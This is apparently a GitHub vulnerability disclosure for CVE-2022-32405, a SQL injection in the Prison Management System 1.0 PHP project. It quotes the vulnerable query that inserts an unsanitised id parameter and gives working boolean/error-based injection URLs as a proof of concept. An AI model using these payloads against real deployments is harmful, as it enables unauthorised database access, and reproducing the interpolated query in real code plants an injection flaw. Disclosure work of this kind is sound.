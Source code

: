 # CVE-2022-32405
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/prisons/view_prison.php:4`
```php
$qry = $conn->query("SELECT * from `prison_list` where id = '{$_GET['id']}' and delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/prisons/view_prison.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/prisons/view_prison.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32405_true.png)
- False : 
`http://localhost/pms/admin/prisons/view_prison.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32405_false.png)